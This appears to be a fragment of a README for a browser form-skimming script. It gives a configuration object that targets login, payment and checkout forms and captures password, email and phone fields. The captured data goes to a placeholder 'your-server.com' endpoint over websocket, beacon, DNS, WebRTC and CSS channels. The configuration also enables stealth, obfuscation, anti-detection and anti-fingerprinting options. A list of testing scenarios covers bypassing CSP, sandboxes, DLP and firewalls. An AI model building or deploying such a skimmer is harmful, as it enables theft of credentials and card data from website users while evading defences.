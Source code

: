 ### Configuration

```javascript
const config = {
    endpoint: 'wss://your-server.com',  // WebSocket endpoint
    beaconEndpoint: 'https://your-server.com/beacon',  // Beacon endpoint
    minInterval: 5000,  // Minimum time between transmissions
    maxInterval: 15000,  // Maximum time between transmissions
    maxRetries: 3,  // Maximum number of retry attempts
    retryDelay: 2000,  // Delay between retries
    stealthMode: true,  // Enable stealth mode
    targetForms: ['login', 'payment', 'checkout'],  // Target specific forms
    excludeForms: ['search', 'newsletter'],  // Exclude specific forms
    dataTypes: ['text', 'password', 'email', 'tel', 'number'],  // Target specific data types
    maxDataSize: 1024,  // Maximum data size in bytes
    compressionEnabled: true,  // Enable data compression
    obfuscationEnabled: true,  // Enable data obfuscation
    chunkSize: 64,  // Size of data chunks for transmission
    transmissionMethods: ['websocket', 'beacon', 'dns', 'webrtc', 'css'],  // Enabled transmission methods
    fallbackMethods: ['image', 'fetch', 'xhr'],  // Fallback transmission methods
    antiDetectionEnabled: true,  // Enable anti-detection measures
    antiFingerprintingEnabled: true,  // Enable anti-fingerprinting measures
    debugMode: false  // Enable debug mode (disables some protections)
};
```

## Testing Scenarios



1. **Basic Form Monitoring**
   
   - Deploy the script on a test site with forms
   - Verify that form data is collected and transmitted

2. **Security Bypass Testing**
   
   - Test against sites with CSP, CORS, and other security measures
   - Evaluate which bypasses are effective

3. **Anti-Detection Testing**
   
   - Test in environments with VM detection
   - Test with debugging tools active
   - Test in sandboxed environments

4. **Exfiltration Testing**
   
   - Test against network security tools
   - Test against DLP solutions
   - Test against firewall rules

5. **Anti-Fingerprinting Testing**
   
   - Test against browser fingerprinting detection
   - Test against canvas fingerprinting protection
   - Test against audio fingerprinting protection
